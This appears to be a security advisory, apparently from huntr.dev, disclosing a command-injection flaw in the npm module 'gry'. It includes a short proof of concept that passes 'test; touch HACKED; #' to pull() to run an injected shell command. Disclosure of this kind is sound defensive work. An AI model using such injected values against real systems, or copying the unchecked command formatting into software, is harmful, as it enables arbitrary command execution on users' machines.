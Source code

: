 
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js
const Repo = require("gry");
var myRepo = new Repo(".");
myRepo.pull('test; touch HACKED; #', function(){console.log('Finished!')})
```
2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:
```bash
npm i gry # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
## References:
 - [GitHub Issue](https://github.com/IonicaBizau/node-gry/issues/21)
 - [GitHub Permalink #1](https://github.com/IonicaBizau/node-gry/blob/master/lib/index.js#L149)